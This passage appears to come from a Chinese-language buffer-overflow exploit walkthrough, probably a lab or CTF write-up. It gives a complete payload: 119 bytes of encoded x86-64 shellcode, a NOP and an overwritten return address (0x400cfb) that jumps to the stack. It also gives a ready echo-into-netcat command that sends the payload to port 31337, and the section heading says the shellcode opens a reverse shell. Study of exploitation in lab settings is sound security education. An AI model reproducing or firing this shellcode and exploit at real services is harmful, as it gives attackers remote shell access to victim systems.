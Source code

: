 ```plain
[shellcode] + [\x90] + [\xfb\x0c\x40\x00]
=> 119 + 1 + 4 

//最后结果：拼接 [\x90] 和 [\xfb\x0c\x40\x00]
\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d\x05\xef\xff\xff\xff\x48\xbb\x27\x14\xe6\xca\x31\xf4\x33\x97\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\x4d\x3d\xbe\x53\x5b\xf6\x6c\xfd\x26\x4a\xe9\xcf\x79\x63\x7b\x2e\x25\x14\xea\x30\xf1\x5c\x63\x16\x76\x5c\x6f\x2c\x5b\xe4\x69\xfd\x0d\x4c\xe9\xcf\x5b\xf7\x6d\xdf\xd8\xda\x8c\xeb\x69\xfb\x36\xe2\xd1\x7e\xdd\x92\xa8\xbc\x88\xb8\x45\x7d\x88\xe5\x42\x9c\x33\xc4\x6f\x9d\x01\x98\x66\xbc\xba\x71\x28\x11\xe6\xca\x31\xf4\x33\x97\x90\xfb\x0c\x40\x00
```

#### 3.7 测试反弹

RIP地址变为了我们构建的：xfb\\x0c\\x40\\x00（地址0x400cfb会跳转到RSP位置）,RSP位置放的是120字符长度的shellcode

```plain
echo '\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d\x05\xef\xff\xff\xff\x48\xbb\x27\x14\xe6\xca\x31\xf4\x33\x97\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\x4d\x3d\xbe\x53\x5b\xf6\x6c\xfd\x26\x4a\xe9\xcf\x79\x63\x7b\x2e\x25\x14\xea\x30\xf1\x5c\x63\x16\x76\x5c\x6f\x2c\x5b\xe4\x69\xfd\x0d\x4c\xe9\xcf\x5b\xf7\x6d\xdf\xd8\xda\x8c\xeb\x69\xfb\x36\xe2\xd1\x7e\xdd\x92\xa8\xbc\x88\xb8\x45\x7d\x88\xe5\x42\x9c\x33\xc4\x6f\x9d\x01\x98\x66\xbc\xba\x71\x28\x11\xe6\xca\x31\xf4\x33\x97\x90\xfb\x0c\x40\x00' | nc localhost 31337
```

[![](assets/1703831476-f8e3ad05fd77c5a59b8ee6fe09f2c85f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227224856-0fcadb0c-a4c7-1.png)
